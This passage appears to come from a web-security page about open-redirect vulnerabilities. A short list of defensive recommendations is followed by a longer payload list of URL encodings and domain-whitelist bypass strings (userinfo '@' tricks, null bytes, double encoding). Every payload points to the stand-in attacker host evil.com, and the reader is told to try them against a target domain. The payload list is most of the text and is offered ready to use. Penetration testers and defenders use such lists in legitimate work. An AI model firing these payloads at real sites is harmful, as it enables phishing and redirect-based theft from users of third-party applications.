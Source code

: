 ## Recommendations
1. Use HTTPS: Ensure all redirects use secure protocols to prevent man-in-the-middle attacks.
2. Log Redirects: Monitor and log redirect attempts to detect suspicious activity.
3. Update Frameworks: Use modern frameworks (e.g., ASP.NET MVC 3 or later) that include built-in protections against open redirects.
4. By implementing these practices, you can significantly reduce the risk of open redirection vulnerabilities in your web application.

## Open Redirect Payload List:

### Category 1: Basic URL Prefixes & Encodings
These are the most common and effective. Try them with your target domain (evil.com, attacker.com, your-collaborator.net).
```bash
//evil.com
\\evil.com
https:evil.com
http:evil.com
//evil.com%2f.example.com
//evil.com%5c.example.com
/%2f/evil.com
/%5c/evil.com
/%2f/evil.com/
/%5c/evil.com/
http://evil.com
https://evil.com
http:/evil.com
https:/evil.com
http:/\evil.com
https:/\evil.com
http:\\evil.com
https:\\evil.com
```
### Category 2: Bypassing "Domain Whitelisting" (Using the Original Domain)
These try to use the trusted domain in a way that still redirects to yours.
```bash
example.com.evil.com (Classic domain prefix)
evil.com#example.com
evil.com?example.com
evil.com/.example.com
evil.com/example.com
example.com@evil.com (Userinfo syntax)
example.com%40evil.com (URL-encoded @)
example.com@@evil.com
example.com%20@evil.com
example.com&@evil.com
example.com#@evil.com
example.com?@evil.com
https://example.com@evil.com
https://example.com@@evil.com
https://example.com#@evil.com
https://example.com?@evil.com
example.com:80@evil.com
example.com:443@evil.com
example.com%00@evil.com (Null byte)
example.com%2500@evil.com (Double-encoded null byte)
```
